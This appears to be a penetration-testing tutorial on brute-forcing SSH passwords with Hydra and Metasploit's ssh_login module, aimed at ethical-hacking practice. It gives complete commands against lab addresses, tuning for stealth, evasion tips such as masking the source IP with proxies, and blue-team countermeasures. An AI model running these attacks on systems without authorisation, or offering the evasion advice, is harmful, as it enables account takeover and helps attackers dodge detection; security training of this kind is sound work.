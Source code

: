 # Bruteforce Attacks Guide

## 🔹 Introduction
Bruteforce attacks involve systematically trying multiple usernames and passwords to gain access to a target system. This technique is useful for **testing password strength**, **identifying weak/default credentials**, and **evaluating blue team detection capabilities**.

⚠️ **Warning:** Bruteforce attacks against SSH are **loud** and can be easily detected by defensive teams.

---

## 🔹 Bruteforcing SSH with Hydra
Hydra is a **fast and flexible password brute-force tool** that supports multiple protocols, including SSH.

### **Basic SSH Bruteforce Attack**
```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.13.143:22 -t 4 -V
```

### **Breakdown of the Command:**
- **`hydra`** → Launches the Hydra tool.
- **`-l root`** → Specifies the username (lowercase `-l` means single user).
- **`-P /usr/share/wordlists/metasploit/unix_passwords.txt`** → Uses a wordlist to try multiple passwords.
- **`ssh://192.168.13.143:22`** → Defines the target SSH service and port.
- **`-t 4`** → Uses **4 parallel attack threads** (lower numbers = stealthier, higher = noisier but faster).
- **`-V`** → Enables verbose mode (shows each attempt in real time).

### **User Bruteforcing**
If we want to test **multiple usernames**, we use an uppercase `-L`:
```bash
hydra -L users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.13.143:22 -t 4 -V
```
- **`-L users.txt`** → Uses a **list of usernames** instead of a single one.

---

## 🔹 Bruteforcing SSH with Metasploit
Metasploit has a built-in SSH brute-force module for automated attacks.

### **1️⃣ Launch MSFConsole**
```bash
msfconsole
```

### **2️⃣ Find the SSH Bruteforce Module**
```bash
search ssh
```
Look for:
```bash
auxiliary/scanner/ssh/ssh_login
```

### **3️⃣ Load the SSH Login Module**
```bash
use auxiliary/scanner/ssh/ssh_login
```

### **4️⃣ Set Required Options**
```bash
options
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set rhosts 192.168.57.137
```
- **`set username root`** → Specifies the user.
- **`set pass_file`** → Defines the password wordlist.
- **`set rhosts`** → Specifies the target IP.

### **5️⃣ Adjust Settings for Speed & Visibility**
```bash
set threads 10
```
- **Low threads (1-5)** → **Stealthy but slow**.
- **Medium threads (5-10)** → **Balanced attack speed**.
- **High threads (10-20)** → **Fast but easily detected**.

```bash
set verbose true
```
- **Shows real-time progress** in the terminal.

### **6️⃣ Run the Attack**
```bash
run
```
Metasploit will start attempting logins. If successful, it will display **valid credentials**.

---

## 🔹 Additional Considerations
### **Detection & Evasion Tips:**
- **Reduce threads (`-t 1` or `-t 2`)** to slow down attacks and avoid detection.
- **Use VPNs or proxies** to mask your IP.
- **Try different ports** (if SSH is running on a non-standard port, e.g., `2222`).
- **Monitor logs (`/var/log/auth.log`)** to see how attacks are logged.

### **Blue Team Countermeasures:**
- **Fail2Ban**: Blocks IPs after multiple failed login attempts.
- **SSH Key Authentication**: Disables password-based logins.
- **Rate Limiting**: Restricts SSH login attempts.
- **Moving SSH to a non-standard port** (e.g., `2222`) reduces automated attacks.

---

## 🔹 Conclusion
Bruteforce attacks are **noisy** and should only be used for **testing password security** in ethical hacking engagements. By leveraging **Hydra and Metasploit**, security professionals can assess the **strength of credentials** and identify **vulnerable SSH services**.